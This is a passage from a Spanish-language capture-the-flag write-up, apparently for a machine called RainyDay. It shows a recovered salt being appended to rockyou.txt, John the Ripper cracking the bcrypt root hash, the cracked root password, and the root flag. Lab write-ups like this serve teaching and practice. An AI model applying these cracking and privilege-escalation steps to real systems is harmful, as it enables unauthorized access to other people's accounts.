 H34vyR41n' es el salt final, y ahora podemos descifrar el hash original de root que encontramos antes.

Podemos generar una lista de palabras con rockyou.txt con el nuevo salt al final.

```plaintext
❯ sed 's/$/H34vyR41n/' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt > wordlist.txt
```

Así que ahora podremos crackear el hash facilmente para conseguir la contraseña de root

```plaintext
❯ john --wordlist=wordlist.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
246813579H34vyR41n (root)
1g 0:00:00:01 DONE (2023-02-18 15:30) 0.6993g/s 6646p/s 6646c/s 6646C/s lllllH34vyR41n..123456
H34vyR41n
Use the "--show" option to display all of the cracked passwords realibly
Session completed.
```

Ahora podemos hacer `su` para convertirnos en root y conseguir la flag

```plaintext
jack_adm@rainyday:~$ su root
Password:
root@rainyday:~# cat root.txt 
54b2f2c54fd5e28d776d0490a35a7815
root@rainyday:~# 
```

Gracias por ver!!